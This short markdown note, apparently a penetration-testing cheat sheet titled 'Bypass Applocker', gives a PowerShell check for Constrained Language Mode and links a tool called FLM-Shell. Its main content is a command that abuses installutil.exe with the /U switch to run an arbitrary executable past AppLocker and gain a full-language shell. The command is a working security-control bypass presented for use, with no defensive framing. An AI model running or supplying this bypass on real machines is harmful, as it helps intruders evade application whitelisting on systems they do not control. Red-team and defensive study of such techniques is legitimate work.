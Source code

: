 # Bypass Applocker
## Check CLM
```powershell
$ExecutionContext.SessionState.LanguageMode
```
[FLM-Shell](https://github.com/an3m0ne/FLM-Shell)
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```
